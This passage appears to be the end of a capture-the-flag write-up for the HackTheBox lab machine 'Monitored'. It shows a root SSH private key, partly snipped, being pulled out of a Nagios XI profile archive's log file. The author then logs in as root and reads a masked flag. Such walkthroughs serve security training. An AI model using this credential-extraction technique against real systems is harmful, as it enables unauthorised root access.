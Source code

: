 
I only care about one file:



    nagios@monitored:/usr/local/nagiosxi/var/components$ unzip -p profile.zip profile-1715259437/phpmailer.log
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAnZYnlG22OdnxaaK98DJMc9isuSgg9wtjC0r1iTzlSRVhNALtSd2C
    FSINj1byqeOkrieC8Ftrte+9eTrvfk7Kpa8WH0S0LsotASTXjj4QCuOcmgq9Im5SDhVG7/
    ...[snip]...
    CNvArnlhyB8ZevAAAADnJvb3RAbW9uaXRvcmVkAQIDBA==
    -----END OPENSSH PRIVATE KEY-----



#### SSH

With that key, I can SSH into Monitored as root:



    oxdf@hacky$ ssh -i ~/keys/monitored-root root@monitored.htb
    Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Wed May  8 15:28:08 2024
    root@monitored:~# 



And read `root.txt`:



    root@monitored:~# cat root.txt
    74cc1c60************************







